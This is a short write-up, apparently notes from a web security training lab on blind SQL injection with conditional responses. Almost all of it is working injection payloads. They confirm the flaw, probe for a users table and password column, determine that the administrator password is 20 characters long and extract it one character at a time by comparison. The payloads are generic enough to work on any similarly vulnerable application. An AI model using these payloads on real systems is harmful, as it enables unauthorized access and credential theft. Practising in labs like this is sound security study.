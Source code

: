 # Lab: Blind SQL injection with conditional responses

test : if we can use sql injection
```
payload : xyz' or 'a'='a
```
Test if we have table users
```
payload: xyz' or substring((select 'a' from user),1,1) = 'a
```
test if we have column password :
```
xyz' OR SUBSTRING((SELECT CONCAT(substring(u.password,1,1),'a') FROM Users as u where u.username='administrator' LIMIT 1), 2, 1) = 'a
```
find the length of the password : 
```
aa' or  length((select password from users where username='administrator' limit 1)) = '20  # 20 characters ! 
```
test if the letter greater than 't' : 
```
xyz' OR SUBSTRING((SELECT password FROM Users as u where u.username='administrator' LIMIT 1), 1, 1) > 't
```
test if the letter = 'w' : 
```
xyz' OR SUBSTRING((SELECT password FROM Users as u where u.username='administrator' LIMIT 1), 1, 1) = 'w
```
